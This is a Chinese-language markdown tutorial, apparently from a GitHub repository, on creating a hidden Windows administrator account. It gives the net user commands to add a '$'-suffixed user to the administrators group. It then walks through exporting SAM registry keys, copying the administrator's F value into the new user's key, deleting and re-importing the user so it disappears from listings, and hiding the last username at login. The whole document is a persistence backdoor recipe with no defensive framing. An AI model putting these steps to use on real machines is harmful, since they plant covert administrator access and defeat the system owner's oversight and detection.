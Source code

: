 # Windows创建隐藏用户

# Windows创建隐藏用户

> 命令行输入`net user`查看用户

## 新建用户

命令行输入`net user test$ 123456 /add`创建隐藏用户，输入`net localgroup administrators test$ /add`将新建的用户移到管理组
	
## 导出test$和administrator用户注册表信息
运行输入`regedit`打开注册表
### 获取SAM权限

<img src="https://pic.imgdb.cn/item/64db35e61ddac507cc6171b4.jpg" style="zoom: 80%;" />

<img src="https://pic.imgdb.cn/item/64db36071ddac507cc61d287.jpg" style="zoom: 67%;" />

### 导出test$用户信息

路径：`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$`

<img src="https://pic.imgdb.cn/item/64db381d1ddac507cc66cacf.jpg" style="zoom:50%;" />

### 导出test$的UID值

<img src="https://pic.imgdb.cn/item/64db38ed1ddac507cc68ad15.jpg" style="zoom: 50%;" />

![](https://pic.imgdb.cn/item/64db393b1ddac507cc69588c.jpg)

### 导出administrator的UID项

用同样的方法导出administrator的UID项

都完成后桌面上有这些注册表文件：

![](https://pic.imgdb.cn/item/64db3a031ddac507cc6b28da.jpg)

​	

## 修改导出的注册表信息

将admin_uid中的F值，复制到uid中的F值

<img src="https://pic.imgdb.cn/item/64db3a6e1ddac507cc6c1a53.jpg" style="zoom:50%;" />

​	

## 删除test$用户，导入注册表

命令行输入：`net user test$ /del`删除test$用户

导入桌面上的 `test` 和 `uid` 注册表文件

导入 `test` ：

<img src="https://pic.imgdb.cn/item/64db3b741ddac507cc6e8217.jpg" style="zoom:67%;" />

导入`uid` 也一样

​	

## 设置登录时不显示最后的用户名

运行输入：`gpedit.msc`打开组策略

<img src="https://pic.imgdb.cn/item/64db3ccf1ddac507cc71aacb.jpg" style="zoom:67%;" />

<img src="https://pic.imgdb.cn/item/64db3cfe1ddac507cc721663.jpg" style="zoom: 67%;" />

